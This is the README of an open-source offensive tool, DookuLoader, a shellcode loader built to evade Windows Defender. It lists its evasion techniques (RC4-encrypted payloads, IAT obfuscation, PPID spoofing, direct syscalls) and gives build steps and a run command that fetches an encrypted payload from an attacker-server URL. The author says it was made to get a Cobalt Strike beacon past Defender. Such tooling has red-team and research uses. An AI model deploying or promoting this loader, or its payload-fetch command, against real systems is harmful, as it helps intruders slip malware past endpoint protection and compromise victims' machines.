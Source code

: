 # DookuLoader
<div align="center">
  <img width="185px" src="assets/savage.png" />
   <h1>DookuLoader</h1>
   <p><i>DookuLoader is a low level shellcode loader to bypass Windows Defender, created by <a href="https://github.com/rottaj">@rottaj>.</i></p>
   <br/>
</div>
<h3>Features</h3>
<ul>
<li><b>RC4 Encryption:</b> Employs the RC4 decryption algorithm to encrypted payloads, making them harder to detect in memory.</li>

<li><b>Custom WinAPI Functions:</b> Custom implementations of GetProcAddress and GetModuleHandle functions, with string stacks.</li>

<li><b>IAT Obfuscation:</b> Employs Import Address Table (IAT) obfuscation techniques to evade detection.</li>

<li><b>PPID Spoofing:</b> Hides execution trace by spoofing the Parent Process ID (PPID) of the injected process.</li>

<li><b>Direct Syscalls:</b> Leverages direct syscalls to bypass WinAPI hooks and interact with the Windows kernel directly.</li>
</ul>

<h3>Installation</h3>

```bash 
git clone https://github.com/rottaj/DookuLoader.git
cd DookuLoader
make;
```

<h3>Run Payload</h3>

```bash
.\dooku.exe -url "http://attacker-server/rc4-encrypted-payload.bin" 
```

<h3> Encrypt Payload </h3>

```bash
.\dooku.exe -encrypt "raw-payload.bin" 
```
<h3>Contributing</h3>
I am not a 1337 C programmer by any means. This is something I hacked together to get a Cobalt Strike beacon past Windows Defender. If you see anything gross or want to improve this tool, create a pull request or message me at jack@rotta.rocks.

<h3>License</h3>
This project is licensed under the MIT License - see the LICENSE file for details.

<h3>Disclaimer</h3>
Use this software responsibly and only in environments where you have legal permission.<br>
The author of this tool is not responsible for any misuse or damages caused.

<br><br>


<img src="assets/defender_bypass.png">
<br><br>


<b>Note:</b> The use of this tool for malicious purposes is illegal and unethical. Always ensure that you have explicit permission to use this tool in any environment.